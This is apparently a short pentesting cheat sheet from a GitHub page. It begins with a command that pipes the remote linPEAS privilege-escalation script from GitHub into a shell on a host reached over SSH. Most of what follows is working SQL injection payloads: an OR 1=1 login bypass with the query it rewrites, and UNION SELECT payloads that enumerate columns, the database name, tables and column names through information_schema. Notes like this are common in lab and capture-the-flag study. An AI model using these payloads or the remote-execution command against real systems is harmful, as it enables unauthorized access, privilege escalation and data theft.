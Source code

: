 >shows current users permissions

first ssh into ip THEN
```
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
```

#  SQL Injection

### In Band Authentication bypass
```
' OR 1=1;--
or
email@email.com' --  
```
Returns a 'TRUE' value for login
e.g. this turns this query
```SQL
select * from users 
where username='%username%' and password='%password%' 
LIMIT 1;
```
into this query
```SQL
select * from users 
where username='' and password='' 
OR 1=1;
--' LIMIT 1;
```
### Boolean Return
```
' UNION SELECT 1;--
' UNION SELECT 1,2;--
' UNION SELECT 1,2,3;--
```
enumerates the correct number of columns in the query table

```
' UNION SELECT 1,2,3 where database() like '%';--
```
enumerates database name by scrolling through the wildcard '%' values

```
' UNION SELECT 1,2,3 FROM information_schema.tables 
WHERE table_schema = '[[DATABASE NAME]]' and table_name like 'a%';--
```
enumerates table name by scrolling through the wildcard '%' values

```
' UNION SELECT 1,2,3 FROM information_schema.COLUMNS 
WHERE TABLE_SCHEMA='[[DATABASE_NAME]]' and TABLE_NAME='[[TABLE_NAME]]' and COLUMN_NAME like 'a%';--
```
enumerates column name by scrolling through the wildcard '%' values
